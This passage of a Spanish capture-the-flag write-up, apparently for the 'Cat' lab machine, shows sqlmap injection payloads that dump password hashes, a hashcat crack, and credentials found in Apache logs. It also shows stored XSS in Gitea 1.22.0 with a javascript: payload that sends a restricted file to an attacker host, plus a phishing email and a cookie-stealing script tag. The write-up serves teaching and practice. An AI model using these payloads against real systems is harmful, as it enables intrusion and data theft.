[02:33:07] [INFO] fetching tables for database: 'SQLite_masterdb'
[02:33:07] [INFO] fetching number of tables for database 'SQLite_masterdb'
[02:33:07] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[02:33:07] [INFO] retrieved: 4
[02:33:07] [INFO] retrieved: accepted_cats
[02:33:20] [INFO] retrieved: sqlite_sequence
[02:33:35] [INFO] retrieved: cats
[02:33:39] [INFO] retrieved: users
<current>
[4 tables]
+-----------------+
| accepted_cats   |
| cats            |
| sqlite_sequence |
| users           |
+-----------------+

[02:33:44] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 184 times
[02:33:44] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/cat.htb'

[*] ending @ 02:33:44 /2025-02-05/
```

En la siguiente consulta, enumeraremos las columnas presentes de la tabla `users` que parece ser la que nos podría dar más información sobre usuarios, credenciales etc. Con el resultado obtenido, verificamos la existencia de las columnas `username` y `password`.

```bash
❯ sqlmap -r request -p catName --dbms sqlite --level 5 --risk 3 --technique=BEST -T users --columns
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 02:35:21 /2025-02-05/

[02:35:21] [INFO] parsing HTTP request from 'request'
[02:35:21] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: catName (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: catName=GzzcooCat'||(SELECT CHAR(122,97,113,98) WHERE 6534=6534 AND 9558=9558)||'&catId=1

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: catName=GzzcooCat'||(SELECT CHAR(104,76,97,65) WHERE 6505=6505 AND 6068=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))))||'&catId=1
---
[02:35:21] [INFO] testing SQLite
[02:35:21] [INFO] confirming SQLite
[02:35:21] [INFO] actively fingerprinting SQLite
[02:35:21] [INFO] the back-end DBMS is SQLite
web server operating system: Linux Ubuntu 19.10 or 20.10 or 20.04 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: SQLite
[02:35:21] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[02:35:21] [INFO] retrieved: CREATE TABLE users (     user_id INTEGER PRIMARY KEY,     username VARCHAR(255) NOT NULL,     email VARCHAR(255) NOT NULL,     password VARCHAR(255) NOT NULL )
Database: <current>
Table: users
[4 columns]
+----------+---------+
| Column   | Type    |
+----------+---------+
| email    | VARCHAR |
| password | VARCHAR |
| user_id  | INTEGER |
| username | VARCHAR |
+----------+---------+

[02:38:11] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 592 times
[02:38:11] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/cat.htb'

[*] ending @ 02:38:11 /2025-02-05/

```

El siguiente paso, será obtener los datos de las columnas mencionadas, para ello haremos uso de la siguiente consulta con `SQLMap`. En el resultado obtenido, comprobamos que logramos obtener diversos hashes de diferentes usuarios.

```bash
❯ sqlmap -r request -p catName --dbms sqlite --level 5 --risk 3 --technique=BEST -T users -C username,password --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.9#stable}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 02:49:52 /2025-02-05/

[02:49:52] [INFO] parsing HTTP request from 'request'
[02:49:52] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: catName (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: catName=GzzcooCat'||(SELECT CHAR(122,97,113,98) WHERE 6534=6534 AND 9558=9558)||'&catId=1

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: catName=GzzcooCat'||(SELECT CHAR(104,76,97,65) WHERE 6505=6505 AND 6068=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))))||'&catId=1
---
[02:49:52] [INFO] testing SQLite
[02:49:52] [INFO] confirming SQLite
[02:49:52] [INFO] actively fingerprinting SQLite
[02:49:52] [INFO] the back-end DBMS is SQLite
web server operating system: Linux Ubuntu 20.04 or 20.10 or 19.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: SQLite
[02:49:52] [INFO] fetching entries of column(s) 'password,username' for table 'users'
[02:49:52] [INFO] fetching number of column(s) 'password,username' entries for table 'users' in database 'SQLite_masterdb'
[02:49:52] [INFO] resumed: 11
[02:49:52] [INFO] resumed: d1bbba3670febH
[02:49:52] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[02:49:52] [INFO] retrieved: axel
[02:49:56] [INFO] retrieved: ac369922d560f17d6eeb8b2c7dec498c
[02:50:31] [INFO] retrieved: rosa
[02:50:35] [INFO] retrieved: 42846631708f69c00ec0c0a8aa4a92ad
[02:51:12] [INFO] retrieved: robert
[02:51:18] [INFO] retrieved: 39e153e825c4a3d314a0dc7f7475ddbe
[02:51:53] [INFO] retrieved: fabian
[02:51:59] [INFO] retrieved: 781593e060f8d065cd7281c5ec5b4b86
[02:52:35] [INFO] retrieved: jerryson
[02:52:43] [INFO] retrieved: 1b6dce240bbfbc0905a664ad199e18f8
[02:53:19] [INFO] retrieved: larry
[02:53:24] [INFO] retrieved: c598f6b844a36fa7836fba0835f1f6
[02:53:59] [INFO] retrieved: royer
[02:54:04] [INFO] retrieved: e41ccefa439fc454f7eadbf1f139ed8a
[02:54:40] [INFO] retrieved: peter
[02:54:45] [INFO] retrieved: 24a8ec003ac2e1b3c5953a6f95f8f565
[02:55:21] [INFO] retrieved: angel
[02:55:27] [INFO] retrieved: 88e4dceccd48820cf77b5cf6c08698ad
[02:56:01] [INFO] retrieved: jobert
[02:56:07] [INFO] retrieved: c0875f003f521ed64586f6c8e6c34745
[02:56:45] [INFO] retrieved: <script>fetch("http://10.10.16.5/?value=" + document.cookie);</script> 
[02:57:56] [INFO] recognized possible password hashes in column 'password'
Database: <current>
Table: users
[11 entries]
+-------------------------------------------------------------------------+----------------------------------+
| username                                                                | password                         |
+-------------------------------------------------------------------------+----------------------------------+
| axel                                                                    | d1bbba3670febH                   |
| rosa                                                                    | ac369922d560f17d6eeb8b2c7dec498c |
| robert                                                                  | 42846631708f69c00ec0c0a8aa4a92ad |
| fabian                                                                  | 39e153e825c4a3d314a0dc7f7475ddbe |
| jerryson                                                                | 781593e060f8d065cd7281c5ec5b4b86 |
| larry                                                                   | 1b6dce240bbfbc0905a664ad199e18f8 |
| royer                                                                   | c598f6b844a36fa7836fba0835f1f6   |
| peter                                                                   | e41ccefa439fc454f7eadbf1f139ed8a |
| angel                                                                   | 24a8ec003ac2e1b3c5953a6f95f8f565 |
| jobert                                                                  | 88e4dceccd48820cf77b5cf6c08698ad |
| <script>fetch("http://10.10.16.5/?value=" + document.cookie);</script>  | c0875f003f521ed64586f6c8e6c34745 |
+-------------------------------------------------------------------------+----------------------------------+

[02:59:56] [INFO] table 'SQLite_masterdb.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/cat.htb/dump/SQLite_masterdb/users.csv'
[02:59:56] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 1666 times
[02:59:56] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/cat.htb'
```

### Cracking hashes

Después de un tiempo intentando crackear estos hashes obtenidos, verificamos que logramos obtener la contraseña en texto plano del hash del usuario `rosa`.

```bash
❯ hashcat -a 0 -m 0 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5891 MB (1024 MB allocatable), 8MCU


ac369922d560f17d6eeb8b2c7dec498c:soyunaprincesarosa
```

### Access via SSH with newly cracked password

Trataremos de acceder al `SSH`con este usuario para verificar si podemos acceder al equipo. Comprobamos que  hemos podido acceder al equipo sin problemas.

```bash
❯ ssh rosa@cat.htb
The authenticity of host 'cat.htb (10.10.11.53)' can't be established.
ED25519 key fingerprint is SHA256:tsmOV3JuQkCv6HNUqg9YQ+DJznLS2nYKJl4zIwKtbE4.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:22: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'cat.htb' (ED25519) to the list of known hosts.
rosa@cat.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-204-generic x86_64)


Last login: Sat Sep 28 15:44:52 2024 from 192.168.1.64
rosa@cat:~$
```

## Initial Access

### Abusing adm group to see disclosure of sensitive data in logs

Verificando los grupos a los que forma parte la usuaria `rosa`, verificamos que forma parte del grupo `adm`.&#x20;

```bash
rosa@cat:~$ id
uid=1001(rosa) gid=1001(rosa) groups=1001(rosa),4(adm)
```




El grupo **adm** se utiliza para tareas de monitoreo del sistema. Los miembros de este grupo pueden leer muchos archivos de registro en **/var/log** y pueden usar **xconsole**. Históricamente, **/var/log** solía ser **/usr/adm** (y más tarde **/var/adm**), de ahí el nombre del grupo.


<figure><figcaption></figcaption></figure>

Ingresaremos al directorio `/var/log` y buscaremos aquellos directorios y archivos los cuales formando parte del grupo `adm` dispongamos acceso para leer los logs.

```bash
rosa@cat:/var/log$ ls -l | grep adm
drwxr-x---  2 root      adm                4096 Feb  5 01:27 apache2
drwxr-x---  2 root      adm                4096 Jan 31 11:17 audit
-rw-r-----  1 syslog    adm               17809 Feb  5 02:10 auth.log
-rw-r-----  1 syslog    adm               19344 Jan 30 15:33 auth.log.1
-rw-r-----  1 syslog    adm                   1 Jan 21 13:02 cloud-init.log
-rw-r-----  1 root      adm              282216 Dec 31 12:27 cloud-init-output.log
-rw-r--r--  1 root      adm                   0 Jan 21 13:01 dmesg
drwxr-x---  3 root      adm                4096 Jun  3  2024 installer
-rw-r-----  1 syslog    adm              653250 Feb  5 01:27 kern.log
-rw-r-----  1 syslog    adm             1051746 Jan 30 15:33 kern.log.1
-rw-r-----  1 syslog    adm               21345 Feb  5 02:10 mail.log
-rw-r-----  1 syslog    adm                4565 Jan 27 16:05 mail.log.1
-rw-r-----  1 syslog    adm               29335 Feb  5 02:10 syslog
-rw-r-----  1 syslog    adm              251510 Feb  5 01:27 syslog.1
-rw-r-----  1 syslog    adm              131116 Jan 31 11:17 syslog.2.gz
```

Accederemos al primer directorio, `/var/log/apache2` y comprobaremos que dispone de diversos de acceso y errores.

```bash
rosa@cat:/var/log/apache2$ ls -l
total 2472
-rw-r----- 1 root adm 1239128 Feb  5 02:11 access.log
-rw-r----- 1 root adm  185192 Jan 31 11:48 access.log.1
-rw-r----- 1 root adm     724 Jan 30 15:40 access.log.2.gz
-rw-r----- 1 root adm 1077499 Feb  5 01:59 error.log
-rw-r----- 1 root adm     346 Jan 31 11:48 error.log.1
-rw-r----- 1 root adm     351 Jan 30 15:40 error.log.2.gz
-rw-r----- 1 root adm       0 Jan 21 12:34 other_vhosts_access.log
```

Al revisar el contenido del archivo `access.log` filtrando a través de `regex`(expresiones regulares) por palabras clave como `username,password`, etc. Verificamos que aparece lo que parece ser las credenciales en texto plano del usuario `axel`.

```bash
rosa@cat:/var/log/apache2$ cat access.log | grep -iE "login|password|pass|username|user" | head -n 10
127.0.0.1 - - [05/Feb/2025:01:27:18 +0000] "GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1" 302 329 "http://cat.htb/join.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"
127.0.0.1 - - [05/Feb/2025:01:27:29 +0000] "GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1" 302 329 "http://cat.htb/join.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"
127.0.0.1 - - [05/Feb/2025:01:27:40 +0000] "GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1" 302 329 "http://cat.htb/join.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"
127.0.0.1 - - [05/Feb/2025:01:27:50 +0000] "GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1" 302 329 "http://cat.htb/join.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"
127.0.0.1 - - [05/Feb/2025:01:28:01 +0000] "GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1" 302 329 "http://cat.htb/join.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"
```

Intentaremos pivotar al usuario `axel`, comprobamos que las credenciales son válidas y hemos obtenido acceso con ese usuario y logramos visualizar la flag de **user.txt**.

```bash
rosa@cat:/var/log/apache2$ su axel
Password: 
axel@cat:/var/log/apache2$ cd /home/axel
axel@cat:~$ cat user.txt 
c34f48e1200***********************
```

## Privilege Escalation

Revisaremos los grupos a los que forma parte el usuario `axel`, verificamos que no forma parte de un grupo que podamos aprovecharnos para escalar nuestros privilegios. Revisando si disponemos de algún permiso de `sudoers` comprobamos que no disponemos de ningún privilegio.

```bash
axel@cat:~$ id
uid=1000(axel) gid=1000(axel) groups=1000(axel)
axel@cat:~$ sudo -l
[sudo] password for axel: 
Sorry, user axel may not run sudo on cat.
```

Revisando los usuarios del sistema que disponen de `bash`, comprobamos la existencia de más usuarios entre los cuales aparece uno mencionado como `git`.

```bash
axel@cat:~$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
axel:x:1000:1000:axel:/home/axel:/bin/bash
rosa:x:1001:1001:,,,:/home/rosa:/bin/bash
git:x:114:119:Git Version Control,,,:/home/git:/bin/bash
jobert:x:1002:1002:,,,:/home/jobert:/bin/bash
```

### Checking internal ports

Revisando los puertos internos del equipo, comprobamos algunos puertos abiertos que en el escaneo inicial con`Nmap` no pudimos verificar dado que no están expuestos. Entre los puertos encontrados, nos encontramos con el puerto 25 (`SMTP`) y algún otro que puerto más.

```bash
axel@cat:~$ netstat -ano | grep LISTEN
tcp        0      0 127.0.0.1:40681         0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:587           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:32913         0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:32857         0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp6       0      0 :::80                   :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      off (0.00/0/0)
```

Realizaremos un `telnet` al `SMTP` para verificar el acceso y ferificamos que podemos enviar correos correctamente, por lo tanto, comprobamos que el servicio se encuentre funcionando correctamente.

```bash
axel@cat:~$ telnet localhost 25
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
220 cat.htb ESMTP Sendmail 8.15.2/8.15.2/Debian-18; Wed, 5 Feb 2025 02:16:10 GMT; (No UCE/UBE) logging access from: localhost(OK)-localhost [127.0.0.1]
HELO Localhost
250 cat.htb Hello localhost [127.0.0.1], pleased to meet you
MAIL FROM:axel@localhost
250 2.1.0 axel@localhost... Sender ok
RCPT TO:axel@localhost
250 2.1.5 axel@localhost... Recipient ok
DATA
354 Enter mail, end with "." on a line by itself
Hello!.
.
250 2.0.0 5152GAe5002625 Message accepted for delivery
quit
221 2.0.0 cat.htb closing connection
Connection closed by foreign host.
```

Al revisar los demás puertos, verificamos la existencia del puerto `3000` abierto internamente. Revisando información por Internet, nos encontramos que este puerto es utilizado por `Gitea`. Al realizar un `cURL` al puerto `3000` interno del equipo, verificamos que nos devuelve un resultado en el cual mencionan a `Gitea`.

<figure><figcaption></figcaption></figure>


Gitea permite la creación y gestión de repositorios basados ​​en Git . También hace que la revisión de código sea increíblemente fácil y cómoda, mejorando la calidad del código para los usuarios y las empresas.


```bash
axel@cat:~$ curl 127.0.0.1:3000
<!DOCTYPE html>
<html lang="en-US" data-theme="gitea-auto">
<head>
	<meta name="viewport" content="width=device-width, initial-scale=1">
	<title>Cat</title>
	<link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiQ2F0Iiwic2hvcnRfbmFtZSI6IkNhdCIsInN0YXJ0X3VybCI6Imh0dHA6Ly9jYXQuaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9jYXQuaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9jYXQuaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnN2ZyIsInR5cGUiOiJpbWFnZS9zdmcreG1sIiwic2l6ZXMiOiI1MTJ4NTEyIn1dfQ==">
	<meta name="author" content="Gitea - Git with a cup of tea">
	<meta name="description" content="Gitea (Git with a cup of tea) is a painless self-hosted Git service written in Go">
	<meta name="keywords" content="go,git,self-hosted,gitea">
	<meta name="referrer" content="no-referrer">
```

### Email found with valuable information

Recordando que el servicio `SMTP` se encuentra expuesto y operativo, pensamos en que quizás habría algún tipo de información en el directorio de correos. Al acceder a `/var/mail` verificamos que existen diversos correos, entre los cuales el del usuario que disponemos actualmente (`axel`).

En `/var/mail`, encontramos un correo dirigido a `axel` que nos proporciona información clave para nuestra escalada de privilegios.

El primer mensaje menciona que están planeando lanzar **nuevos servicios web relacionados con gatos**, incluyendo un sitio de cuidado para gatos y otros proyectos. Se le pide a `axel` que envíe un correo a `jobert@localhost` con información sobre su repositorio en `Gitea`, ya que `Jobert` evaluará si es un proyecto prometedor para su desarrollo. Además, se destaca una nota importante donde se indica que es necesario incluir una **descripción clara del proyecto**, ya que el repositorio será revisado en su totalidad. Esto sugiere que cualquier archivo dentro del repositorio podría ser analizado, lo que podría darnos una pista sobre cómo interactúan internamente con Gitea o qué configuraciones están utilizando.

El segundo mensaje nos revela que están desarrollando un **sistema de gestión de empleados**, el cual está alojado en un **Gitea privado** en [**http://localhost:3000/administrator/Employee-management/**](http://localhost:3000/administrator/Employee-management/). Además, se proporciona un enlace al **README.md** del proyecto ([**http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md**](http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md)), donde podríamos encontrar detalles técnicos, instrucciones o incluso credenciales útiles.

Ahora que tenemos las **credenciales de axel**, podemos intentar acceder a Gitea, revisar los repositorios y buscar información sensible que nos ayude a escalar privilegios dentro del sistema.

<pre class="language-bash"><code class="lang-bash">axel@cat:/var/mail$ ls -l
total 40
-rw-rw---- 1 axel   mail  1961 Jan 14 16:49 axel
-rw-rw---- 1 jobert mail     0 Jan 14 16:54 jobert
-rw------- 1 root   mail 30797 Feb  5 02:15 root

axel@cat:/var/mail$ cat axel 
<strong>From rosa@cat.htb  Sat Sep 28 04:51:50 2024
</strong>Return-Path: &#x3C;rosa@cat.htb>
Received: from cat.htb (localhost [127.0.0.1])
	by cat.htb (8.15.2/8.15.2/Debian-18) with ESMTP id 48S4pnXk001592
	for &#x3C;axel@cat.htb>; Sat, 28 Sep 2024 04:51:50 GMT
Received: (from rosa@localhost)
	by cat.htb (8.15.2/8.15.2/Submit) id 48S4pnlT001591
	for axel@localhost; Sat, 28 Sep 2024 04:51:49 GMT
Date: Sat, 28 Sep 2024 04:51:49 GMT
From: rosa@cat.htb
Message-Id: &#x3C;202409280451.48S4pnlT001591@cat.htb>
Subject: New cat services

Hi Axel,

We are planning to launch new cat-related web services, including a cat care website and other projects. Please send an email to jobert@localhost with information about your Gitea repository. Jobert will check if it is a promising service that we can develop.

Important note: Be sure to include a clear description of the idea so that I can understand it properly. I will review the whole repository.

From rosa@cat.htb  Sat Sep 28 05:05:28 2024
Return-Path: &#x3C;rosa@cat.htb>
Received: from cat.htb (localhost [127.0.0.1])
	by cat.htb (8.15.2/8.15.2/Debian-18) with ESMTP id 48S55SRY002268
	for &#x3C;axel@cat.htb>; Sat, 28 Sep 2024 05:05:28 GMT
Received: (from rosa@localhost)
	by cat.htb (8.15.2/8.15.2/Submit) id 48S55Sm0002267
	for axel@localhost; Sat, 28 Sep 2024 05:05:28 GMT
Date: Sat, 28 Sep 2024 05:05:28 GMT
From: rosa@cat.htb
Message-Id: &#x3C;202409280505.48S55Sm0002267@cat.htb>
Subject: Employee management

We are currently developing an employee management system. Each sector administrator will be assigned a specific role, while each employee will be able to consult their assigned tasks. The project is still under development and is hosted in our private Gitea. You can visit the repository at: http://localhost:3000/administrator/Employee-management/. In addition, you can consult the README file, highlighting updates and other important details, at: http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md.
</code></pre>

### SSH Port Forwarding

Para verificar estos puertos internos, realizaremos `SSH Port Forwarding` para compartirnos el puerto del `SMTP` y del `Gitea`.

```bash
❯ ssh -L 25:127.0.0.1:25 -L 3000:127.0.0.1:3000 axel@cat.htb
axel@cat.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-204-generic x86_64)


You have mail.
Last login: Fri Jan 31 11:31:57 2025 from 10.10.14.69
axel@cat:~$
```

Verificaremos que realizando un escaneo de los puertos abiertos de nuestro equipo, verificamos que se ha realizado correctamente el `Port Forwarding`.

```bash
❯ nmap -p- localhost
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-05 03:19 CET
Nmap scan report for localhost (127.0.0.1)
Host is up (0.0000030s latency).
Other addresses for localhost (not scanned): ::1
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
25/tcp   open  smtp
3000/tcp open  ppp

Nmap done: 1 IP address (1 host up) scanned in 0.77 seconds
```

### Accesing on Gitea with axel credentials

Accederemos a [http://localhost:3000](http://localhost:3000) y comprobaremos que efectivamente se trata del servicio de `Gitea`.

<figure><figcaption></figcaption></figure>

Probaremos de acceder con las credenciales de `axel` en el `Gitea`.

<figure><figcaption></figcaption></figure>

Al acceder al `Gitea`, verificamos que en `Explore < Users`, aparecen los usuarios de `rosa`, `axel` y `administrator`.

<figure><figcaption></figcaption></figure>

Accediendo al repositorio de `rosa` no encontramos ningún repositorio ni información relevante.

<figure><figcaption></figcaption></figure>

Accediendo al repositorio de `administrator` tampoco logramos encontrar nada relevante.

<figure><figcaption></figcaption></figure>

Tataremos de acceder a [http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md](http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md) que era el archivo que se nos indidcaba en el correo. Al tratar de acceder, verificamos que se nos indica que la página no existe o que pno disponemos del acceso necesario.

<figure><figcaption></figcaption></figure>

Al tratar de acceder al repositorio raíz que encontramos ([http://localhost:3000/administrator/Employee-management/](http://localhost:3000/administrator/Employee-management/)), verificamos que tampoco disponemos del acceso correspondiente o que no existe la página web.&#x20;

<figure><figcaption></figcaption></figure>

### Gitea Exploitation - Cross-Site Scripting \[XSS] (CVE-2024-6886)

Verificaremos que hemos podido acceder correctamente con las credenciales del usuario `axel`. Por otro lado, comprobamos la versión del `Gitea` que se trata de la `1.22.0`, con lo cual podremos intentar mirar si existen vulnerabilidades en esta versión.

<figure><figcaption></figcaption></figure>

Realizaremos una búsqueda sencilla con la herramienta de `searchsploit`y verificaremos que existe una vulnerabilidade de `XSS` para esta versión de `Gitea` a través del siguiente `CVE-2024-6886`.

```bash
❯ searchsploit Gitea 1.22.0
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                      |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Gitea 1.22.0 - Stored XSS                                                                                                                                                                           | multiple/webapps/52077.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```




Vulnerabilidad de neutralización incorrecta de la entrada durante la generación de páginas web (XSS o 'Cross-site Scripting') en Gitea Gitea Open Source Git Server permite XSS almacenado. Este problema afecta a Gitea Open Source Git Server: 1.22.0.


Gitea 1.22.0 tiene una vulnerabilidad de **Stored XSS** en la descripción de los repositorios, lo que permite inyectar un script malicioso que se ejecutará cuando otro usuario lo visualice.

Dado que en el correo enviado a Axel se menciona que **Jobert revisará nuestro repositorio** y que debe incluir una descripción, podemos aprovechar esta vulnerabilidad para inyectar un **payload XSS**. Si Jobert hace clic en la descripción, ejecutará nuestro código malicioso, lo que nos abre la posibilidad de **explotar su sesión o realizar otros ataques basados en XSS**, como el robo de cookies, ejecución de acciones en su nombre o redirección a sitios maliciosos.

<figure><figcaption></figcaption></figure>

### Cookie Hijacking not available

Lo primero que se nos ocurrió es en intentar robar la cookie de sesión de `Jobert` para tratar de acceder al `Gitea` con sus credenciales y verificar si hay algún tipo de contenido sensible que pueda tener credenciales, etc.&#x20;

Revisando la página web de `Gitea`, verificamos que `HttpOnly` se encontraba en `False`, por lo tanto, no podríamos realizar el ataque de `Cookie Hijacking` debido que JavaScript no puede acceder directamente a la cookie.

Dedido a esto, deberemos de buscar otras vías para realizar el ataque mediante XSS.

<figure><figcaption></figcaption></figure>

### Data Exfiltration using XSS

Dado que **HttpOnly está en true**, no podemos robar la cookie de sesión de Jobert. Sin embargo, hemos identificado que **Jobert podría tener acceso al archivo** `http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md`.

Si este archivo está restringido para otros usuarios pero **Jobert sí tiene permisos para acceder**, podemos aprovechar el **XSS** para realizar **data exfiltration**. La clave aquí es que **cuando Jobert haga clic en nuestro payload malicioso, su navegador ejecutará la petición al archivo con sus propios permisos** y nos enviará su contenido a nuestro servidor externo.

En otras palabras, aunque nosotros no podamos acceder directamente, **si Jobert visualiza nuestra carga maliciosa, su navegador actuará como puente** y nos filtrará la información sin que él lo note.

**Explotación de la vulnerabilidad**

El primer paso para realizar la explotación de esta vulnerabilidad de `XSS Stored` en `Gitea` es crear un nuevo repositorio.

<figure><figcaption></figcaption></figure>

Crearemos un nuevo repositorio, en este caso con nuestro nombre `gzzcoo`. Siguiendo el PoC de la vulnerabilidad, deberemos de inyectar nuestro payload dentro de la descripción.

En este caso, como queremos que se realice la exfiltración del archivo `README.md` para verificar si funciona, inyectamos el siguiente payload que reenviará los datos a nuestro servidor web externo.

```javascript
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md').then(response => response.text()).then(data => fetch('http://10.10.16.5/?response=' + encodeURIComponent(data))).catch(error => console.error('Error:', error));">gzzcoo</a>
```

<figure><figcaption></figcaption></figure>

El siguiente paso será crear un nuevo archivo en nuestro repositorio.

<figure><figcaption></figcaption></figure>

Crearemos un archivo con el mismo nombre del repositorio, este archivo deberá estar completamente vacío.

<figure><figcaption></figcaption></figure>

Una vez asignado el nombre del archivo, le daremos a la opción de **Commit Changes**.

<figure><figcaption></figcaption></figure>

Verificaremos que se nos ha creado un nuevo repositorio llamado `gzzcoo` con una descripción que si nos fijamos haciendo `hovering` realiza la explotación de `XSS`.

<figure><figcaption></figcaption></figure>

Por nuestra parte, nos montaremos un servidor web para recibir esta información.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el equipo víctima, enviaremos un mail al usuario `jobert@localhost` indicándole el enlace al repositorio que contiene el payload malicioso.

```bash
axel@cat:~$ echo -e "Subject: Repo \n\nHi check my repo http://localhost:3000/axel/gzzcoo" | sendmail jobert@localhost
```

Después de un breve tiempo, verificamos que hemos recibido lo que parece ser el archivo `README.md`. Esto nos confirma que el usuario `jobert` está ingresando a nuestro repositorio, de la confirmación de la explotación de la vulnerabilidad XSS y de que el usuario dispone de permisos para acceder al archivo que nosotros no disponíamos acceso.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.53 - - [05/Feb/2025 03:31:32] "GET /?response=%23%20Employee%20Management%0ASite%20under%20construction.%20Authorized%20user%3A%20admin.%20No%20visibility%20or%20updates%20visible%20to%20employees. HTTP/1.1" 200 -
```

Al tratar de descodificar el contenido recibido, verificamos que es un archivo que no contiene información relevante para escalar privilegios, simplemente se indica que solamente está autorizado el usuario `admin`.

<figure><figcaption></figcaption></figure>

